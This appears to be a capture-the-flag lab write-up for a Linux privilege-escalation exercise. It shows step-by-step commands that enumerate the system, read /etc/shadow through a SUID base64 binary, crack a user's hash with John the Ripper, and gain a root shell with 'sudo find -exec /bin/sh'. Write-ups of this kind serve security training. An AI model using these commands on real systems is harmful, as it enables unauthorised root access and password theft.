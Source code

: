 ## Lunix Privilege Escalation Capstone

We can access machine with given credentials:

-   Username: leonard
-   Password: Penny123

Once we got into machine we start with manual enumeration:

```bash
sudo -l 
```
which gives us nothing

Trying to run:
```bash
cat /etc/passwd
```
success. Command returns content of the file.

Trying another one:
```bash
cat /etc/shadow
```
but nothing was returned.

Getting another users from passwd file with:
```bash
cat /etc/passwd | grep home
```

```bash
missy
leonard
```

Well, if we can read passwd file maybe we have possibility to read **shadow** file too.

Lets start with capabilities:
```bash
$ getcap -r / 2>/dev/null
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
```
no useful binaries.

```bash
cat /etc/crontab
```
no cron jobs too.

Maybe there is binaries with SUID set :
```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
/usr/bin/base64
...
```

`/usr/bin/base64` - our beloved friend. We can read shadow file now:

```bash
SHDW=/etc/shadow
base64 "$SHDW" | base64 --decode > shadow.pwn
```

Next step is missy's password. So I copied shadow and passwd to my machine, unshadowed it and tried to unhash passwords with John.
```bash
unshadow passwd.pwn shadow.pwn
ohn --wordlist=/usr/share/wordlists/rockyou.txt unshadowed 
```
John found it easily and we got missy's password.

We can su with missy's account but instead we SSH again with missy's account. 
Looking for flag on account: 
```bash
find / -name flag1.txt 2>/dev/null
```
Success! We got 1st part.

**Time to get part 2.**

Ok, let's start with 
```bash
sudo -l
```
and ... success on first try!
```
User missy may run the following commands on ip-10-10-89-210:
    (ALL) NOPASSWD: /usr/bin/find
```

Getting root (thanks to [gtfobins](https://gtfobins.github.io/gtfobins/find/)):
```bash
sudo find . -exec /bin/sh \; -quit
```

We are root now! So, time to get flag2, but where it is?
```bash
find / -name flag2.txt 2>/dev/null
```
Found it. Now we read and it is done!